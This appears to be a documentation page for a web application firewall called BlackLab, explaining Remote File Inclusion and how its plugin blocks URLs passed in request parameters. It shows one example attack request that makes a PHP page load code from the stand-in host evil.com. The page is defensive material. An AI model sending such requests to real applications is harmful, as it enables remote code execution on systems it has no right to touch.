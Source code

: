 ```yaml
---
title: 'Remote File Inclusion (RFI)'
description: 'Learn what RFI is and how BlackLab WAF protects against it'
icon: 'globe'
---
```


Remote File Inclusion (**RFI**) is a vulnerability where an attacker makes your app load and execute a file from a remote server.

---

## Example attack

```http
GET /index.php?page=http://evil.com/malware.txt
If not protected, this could execute malicious code from the attacker’s server.

## How BlackLab helps
BlackLab’s RFI plugin blocks requests that try to include remote files, such as:

URLs starting with http:// or https:// in parameters

Suspicious query values that point outside your app